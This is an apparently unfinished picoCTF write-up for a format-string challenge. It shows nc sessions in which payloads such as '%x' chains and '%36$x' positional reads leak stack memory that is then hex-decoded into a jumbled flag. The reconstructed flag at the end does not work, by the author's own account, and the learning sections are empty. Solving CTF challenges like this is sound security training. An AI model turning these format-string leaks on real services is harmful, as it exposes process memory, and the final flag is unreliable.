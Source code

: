 # flag leak
**Flag: picoCTF{}**
## My thought process and approach to the challenge:
First I tried using `%p`
![image](https://github.com/user-attachments/assets/b58ea8ad-0416-4a87-abcd-0e88538339db)
which gave me
```
┌──(sam㉿voldermort)-[~]
└─$ nc saturn.picoctf.net 56509
Tell me a story and then I'll tell you one >> %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %P
Here's a story - 
0xffacc6f0
```
Then I tried using `%x` like:       
but that just gave me:  
![image](https://github.com/user-attachments/assets/7fbfe846-4b06-4c06-b739-aa456eba86dc)           

```
┌──(sam㉿voldermort)-[~]
└─$ nc saturn.picoctf.net 56509
Tell me a story and then I'll tell you one >> %x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x: 
Here's a story - 
ffe7ea40:ffe7ea60:8049346:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:253a78:6f636970:7b465443:6b34334c:5f676e31:67346c46:6666305f:3474535f:
```
At first, all this made no sense at all to me, but looking at it further, I decided to analyze `6f636970:7b465443:6b34334c:5f676e31:67346c46:6666305f:3474535f:`            
So I tried using an online converter:
![image](https://github.com/user-attachments/assets/370ce0aa-d1bf-415a-8048-06a129c96307)
This gave me the flag but it was jumbled.     
`ocip{FTCk43L_gn1g4lFff0_4tS_` and it wasn't the full flag because it didn't have and ending `}`.          
So then I tried using `%x` more times but that also didn't work.  
![image](https://github.com/user-attachments/assets/0db3b252-00b0-4efa-aeea-d5f86576e95d)
As this was giving me the flag till the same point.            

Then I tried using:
`%36$x:%37$x:%38$x:%39$x:%40$x:%41$x:%42$x:%43$x:%44$x:%45$x:%46$x:%47$x:%48$x:%49$x:%50$x` to get more of the end part of the flag:
This gave me:
![image](https://github.com/user-attachments/assets/bf8c7f48-bdb3-4d3a-afea-ab31696bd6a6)

```
┌──(sam㉿voldermort)-[~]
└─$ nc saturn.picoctf.net 58702
Tell me a story and then I'll tell you one >> %36$x:%37$x:%38$x:%39$x:%40$x:%41$x:%42$x:%43$x:%44$x:%45$x:%46$x:%47$x:%48$x:%49$x:%50$x
Here's a story - 
6f636970:7b465443:6b34334c:5f676e31:67346c46:6666305f:3474535f:395f6b63:32653939:7d343238:fbad2000:89156900:0:ec98f990:804c000
```
putting this to the converter gave me:
![image](https://github.com/user-attachments/assets/dc8f55d5-6a4d-4e54-a522-a0d82c7a08d1)
Which was `ocip{FTCk43L_gn1g4lFff0_4tS_9_kc2e99}` the full flag but still jumbled.
after a lot of trial and error I got till
`picoCTF{L34k1ng_Fl4g_0ff_St4ck_999224e}` but that also didn't work



---

## Every single new concept and point of knowledge I learned or improved upon through solving the challenge.


---

##  Incorrect tangents I went on while solving :
